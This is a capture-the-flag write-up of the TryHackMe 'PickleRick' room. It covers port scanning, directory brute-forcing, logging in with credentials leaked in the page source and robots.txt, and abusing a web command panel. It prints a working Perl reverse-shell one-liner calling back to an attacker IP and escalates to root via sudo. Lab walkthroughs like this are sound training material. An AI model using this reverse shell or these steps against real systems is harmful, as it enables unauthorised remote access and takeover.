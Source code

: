 # TryHackMe-PickleRick CTF
Abdullah Rizwan ,21 August , 09:35 PM

PickleRick is a free beginner level webapplication kinda CTF.

## NMAP
Like always we are going to fire up our nmap scan on the box to look for open ports

```
nmap -T4 -A -p- 10.10.208.39
```
Here
-T4 tells the speed of scanning 
-A  tells to look for all 
-p- tells to look for ports

and in the end is the box ip (machine ip)

<a href="https://imgur.com/SDGCB0V"><img src="https://i.imgur.com/SDGCB0V.png" title="source: imgur.com" /></a>

Here we can see that there are 2 open ports

SSH (22)
HTTP (80)

So first we will try to exploit HTTP

<a href="https://imgur.com/QUpMxwe"><img src="https://i.imgur.com/QUpMxwe.png" title="source: imgur.com" /></a>

This is the home page that is loaded upon entering the ip address.



<a href="https://imgur.com/GmtVzO3"><img src="https://i.imgur.com/GmtVzO3.png" title="source: imgur.com" /></a>

If we try to look at the source we can see Wubbalubbadubdubthat it's telling us that there's a user named *"R1ckRul3s*" so we are going to use it later when we try to ssh are way into the box.

## Port 80

<a href="https://imgur.com/GmtVzO3"><img src="https://i.imgur.com/GmtVzO3.png" title="source: imgur.com" /></a>

I tried to see if "robots.txt" was accessable and what I found was a text "Wubbalubbadubdub" , i don't know what it means by lets see what elese we can find.

<a href="https://imgur.com/2oUzEDd"><img src="https://i.imgur.com/2oUzEDd.png" title="source: imgur.com" /></a>

### Dirbuster

On bruteforcing directory we find out that there is a login page on the website 



<a href="https://imgur.com/POimBHs"><img src="https://i.imgur.com/POimBHs.png" title="source: imgur.com" /></a>



<a href="https://imgur.com/Xpwynbf"><img src="https://i.imgur.com/Xpwynbf.png" title="source: imgur.com" /></a>

On submitting the username and the text we found on robots.txt we are able to login to the potral

<a href="https://imgur.com/56hyQT8"><img src="https://i.imgur.com/56hyQT8.png" title="source: imgur.com" /></a>

From here we can execute commands like "pwd" or "whoami" which will give result of these commands so we can use this as a shell.

<a href="https://imgur.com/pl7RhmL"><img src="https://i.imgur.com/pl7RhmL.png" title="source: imgur.com" /></a>

On the current directory on giving "ls" command we can see what is that current directory also on looking at the source of the page we can find a base64 text but it doesn't really decode into something.

<a href="https://imgur.com/XqGmf1o"><img src="https://i.imgur.com/XqGmf1o.png" title="source: imgur.com" /></a>

But we still can't access the files on the webpage.

I headed over to pentest monkey

<a href="https://imgur.com/2akwyJK"><img src="https://i.imgur.com/2akwyJK.png" title="source: imgur.com" /></a>

Tried the nc(netcat),php,bash,python2 reverse shell but they didn't work so then i tired the perl reverse shell however we can use python3 instead of python2 to execute python reverse shell.
```
perl -e 'use Socket;$i="10.8.94.60";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

<a href="https://imgur.com/mlpDKJg"><img src="https://i.imgur.com/mlpDKJg.png" title="source: imgur.com" /></a>

It gave me a reverse shell on my terminal.

### First Ingredient

So now for the first ingredient I had no problem in viewing "Sup3rS3cretPickl3Ingred.txt".

### Second Ingredient

For second ingredient I moved around the directories and found something named "second ingredients".

<a href="https://imgur.com/DjlG05n"><img src="https://i.imgur.com/DjlG05n.png" title="source: imgur.com" /></a>

For viewing this file as there is a space in between so in linux you have to use '\ ' backslash + space for entering second string of a file.

### Third Ingredient

For the third ingredient there are two ways:

1) Since we can ran any command by writing "sudo" before it so one way is to look into "ubuntu" folder and there we have a file called ".bash_history"

<a href="https://imgur.com/QMFyVvs"><img src="https://i.imgur.com/QMFyVvs.jpg" title="source: imgur.com" /></a>

2) Another method for getting the third ingredient is by accessing "root" folder.

<a href="https://imgur.com/b7SOPCc"><img src="https://i.imgur.com/b7SOPCc.jpg" title="source: imgur.com" /></a>

3) Or you can run "sudo bash" , that would make you a root user.

You have successfully completed this CTF.